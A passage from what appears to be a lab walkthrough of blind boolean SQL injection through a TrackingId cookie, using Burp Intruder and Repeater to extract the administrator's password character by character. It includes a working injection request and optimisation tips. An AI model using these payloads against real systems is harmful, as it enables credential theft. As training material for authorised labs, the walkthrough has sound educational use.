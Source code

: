 - Intruder setup:
  - **Attack type:** `ClusterBomb`
  - **Positions:** mark `§POS§` (replace with numeric position payloads) and `§CHAR§` (replace with characters payloads).
  - **Payload set 1 (POS):** a sequence of positions, e.g. `1`, `2`, `3`, `4`, ... up to discovered length.
  - **Payload set 2 (CHAR):** all candidate characters, e.g. `a`–`z`, `A`–`Z` (if applicable), `0`–`9`, and common symbols if needed.
  - Because Community Edition is slower, you used a smaller alphabet (`a-z0-9`) and it ran through **720 combinations** per position.
  - Use **Grep - Match** (in Intruder) with the string: `Welcome back` to filter responses where the condition is true.

> Note: ClusterBomb with two payload sets will generate combinations of every `POS × CHAR`. For a length `L` and charset size `C`, you'll get `L × C` checks in total; iterating position-by-position is often more efficient (e.g., lock `POS` to one value and iterate `CHAR`).

---

### 6) Using Repeater for verification
When you identify a candidate character (e.g., `a`) for a specific position, paste the full cookie payload into **Repeater** and confirm the response contains the "Welcome back" text.

Example Repeater payload to test position 1 equals `a`:

```
GET /?id=... HTTP/1.1
Host: vulnerable.host
Cookie: TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator') = 'a'-- ; session=...
```

If the response shows "Welcome back", the guess is correct.

---

## Grep / Filtering
- In Intruder → Options → **Grep - Match**, add:
  - `Welcome back`
- This highlights responses where the boolean condition was true; used to quickly extract positive matches from the large number of requests.

---

## Practical notes / gotchas
- **Community Edition**: Intruder is rate-limited/slower than Professional; bruteforcing will take noticeably longer. You noted it had to go through 720 combinations for a position — expect longer runs for full charset or longer passwords.
- **SQL functions**: `SUBSTRING(column, start, length)` works; some DBs accept `SUBSTR()` instead. Adjust if the server responds differently.
- **Escaping / quotes**: Use single quotes consistently and terminate the query with `--` (or `#`) comment to avoid trailing SQL parse errors.
- **Optimizations**:
  - Use binary search on character ranges (e.g., `> 'm'`) to reduce requests if response times/behavior support ordering tests.
  - If allowed, enumerate using `ASCII(SUBSTRING(...)) > N` to binary-search ASCII codes (fewer requests).
- **Ethics & scope**: Only test in authorized lab environments.

---